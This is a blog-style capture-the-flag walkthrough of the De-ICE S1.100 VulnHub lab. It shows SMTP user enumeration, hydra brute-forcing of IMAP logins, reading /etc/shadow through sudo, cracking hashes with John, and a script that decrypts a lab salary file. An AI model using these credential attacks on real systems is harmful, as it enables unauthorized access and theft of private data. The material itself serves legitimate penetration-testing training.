 ```yaml
---
layout: post
title: "DE-ICE-S1.100"
date: 2015-05-09 20:55:07 +0200
comments: true
categories: [vulnhub, deice]
---
```

Image: [De-ICE: S1.100](https://www.vulnhub.com/entry/de-ice-s1100,8/)

The output from nmap:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
20/tcp  closed ftp-data
21/tcp  open   ftp      vsftpd (broken: could not bind listening IPv4 socket)
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
443/tcp closed https
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

We connect to the web site and save the staff names to the file:
{% codeblock %}
$ cat names.txt 
Marie Mary
Pat Patrick
Terry Thompson
Ben Benedict
Erin Gennieg
Paul Michael
Ester Long
Adam Adams
Bob Banter
Chad Coffee
{% endcodeblock %}

Using this script [namelist.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/865a89c2db01c2a5589c534b7f56d1669dddf0ab/namemash.py)
we generate the potential login names:

{% codeblock %}
$ cat userlist.txt
mariemary
marymarie
marie.mary
mary.marie
marym
mmary
mmarie
m.mary
m.marie
marie
mary
patpatrick
patrickpat
pat.patrick
patrick.pat
patrickp
ppatrick
ppat
p.patrick
p.pat
pat
patrick
terrythompson
thompsonterry
terry.thompson
thompson.terry
thompsont
tthompson
tterry
t.thompson
t.terry
terry
thompson
benbenedict
benedictben
ben.benedict
benedict.ben
benedictb
bbenedict
bben
b.benedict
b.ben
ben
benedict
eringennieg
genniegerin
erin.gennieg
gennieg.erin
genniege
egennieg
gerin
e.gennieg
g.erin
erin
gennieg
paulmichael
michaelpaul
paul.michael
michael.paul
michaelp
pmichael
mpaul
p.michael
m.paul
paul
michael
esterlong
longester
ester.long
long.ester
longe
elong
lester
e.long
l.ester
ester
long
adamadams
adamsadam
adam.adams
adams.adam
adamsa
aadams
aadam
a.adams
a.adam
adam
adams
bobbanter
banterbob
bob.banter
banter.bob
banterb
bbanter
bbob
b.banter
b.bob
bob
banter
chadcoffee
coffeechad
chad.coffee
coffee.chad
coffeec
ccoffee
cchad
c.coffee
c.chad
chad
coffee
{% endcodeblock %}

In this case, the better way should be to use SMTP enumeration:
{% codeblock %}
mail from: a@slax.example.net
250 2.1.0 a@slax.example.net... Sender ok
rcpt to: bbanter@slax.example.net
250 2.1.5 bbanter@slax.example.net... Recipient ok
rcpt to: bbanter
250 2.1.5 bbanter@slax.example.net... Recipient ok
rcpt to: aadam
550 5.1.1 aadam... User unknown
rcpt to: aadams
250 2.1.5 aadams... Recipient ok
{% endcodeblock %}

We use hydra to perform brute-force attack via imap service:
{% codeblock %}
$ hydra -L userlist.txt 192.168.1.100 imap -u -e nsr
[143][imap] host: 192.168.1.100   login: bbanter   password: bbanter
{% endcodeblock %}

After login as bbanter, we download the /etc/passwd file to create more accurate wordlist:
{% codeblock %}
$ cat userlist2.txt
aadams
ccoffee
{% endcodeblock %}

{% codeblock %}
$ hydra -L userlist2.txt 192.168.1.100 imap -u -P /usr/share/wordlists/rockyou.txt
[143][imap] host: 192.168.1.100   login: aadams   password: nostradamus
{% endcodeblock %}

We found no working exploit using [Linux_Exploit_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester).

User aadams is in the wheel group:
{% codeblock %}
/etc/passwd:
aadams:x:1000:10:,,,:/home/aadams:/bin/bash
/etc/group:
wheel::10:root
{% endcodeblock %}

Checking sudo -l reveals how to get root hash:
{% codeblock %}
$ sudo -l
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*

aadams@slax:/tmp$ sudo cat /etc/shadow
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
{% endcodeblock %}

Using John, we cracked these hashes:
{% codeblock %}
tarot            (root)
hierophant       (ccoffee)
{% endcodeblock %}

We find salary_dec2003.csv.enc in FTP directory and because there is suspicous
line in /etc/passwd (DO NOT CHANGE PASSWORD - WILL BREAK FTP ENCRYPTION), we
know that the password for this file could be the same as for root.

For this purpose, we wroted the following script:
{% codeblock lang:bash %}
$ cat crack-openssl.sh
#!/usr/bin/env bash

ciphers=`openssl list-cipher-commands`

for c in $ciphers; do
  openssl enc -d -"$c" -in salary_dec2003.csv.enc -k tarot -out csv/salary_dec2003.csv.$c-decrypted
done
{% endcodeblock %}

In a few gibberish files we read csv/salary_dec2003.csv.aes-128-cbc-decrypted:
{% codeblock %}
$ cat csv/salary_dec2003.csv.aes-128-cbc-decrypted  | head -15
,Employee information,,,,,,,,,,,,,,
,Employee ID,Name,Salary,Tax Status,Federal Allowance (From W-4),State Tax (Percentage),Federal Income Tax (Percentage based on Federal Allowance),Social Security Tax (Percentage),Medicare Tax (Percentage
),Total Taxes Withheld (Percentage),"Insurance
Deduction
(Dollars)","Other Regular
Deduction
(Dollars)","Total Regular Deductions (Excluding taxes, in dollars)","Direct Deposit Info
Routing Number","Direct Deposit Info
Account Number"
,1,Charles E. Ophenia,"$225,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$360.00,$500.00,$860.00,183200299,1123245
,2,Marie Mary,"$56,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1192291
,3,Pat Patrick,"$43,350.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2334432
,4,Terry Thompson,"$27,500.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$225.00,$350.00,183200299,1278235
,5,Ben Benedict,"$29,750.00",1,3,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$122.50,$247.50,183200299,2332546
,6,Erin Gennieg,"$105,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1456567
,7,Paul Michael,"$76,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1446756
{% endcodeblock %}
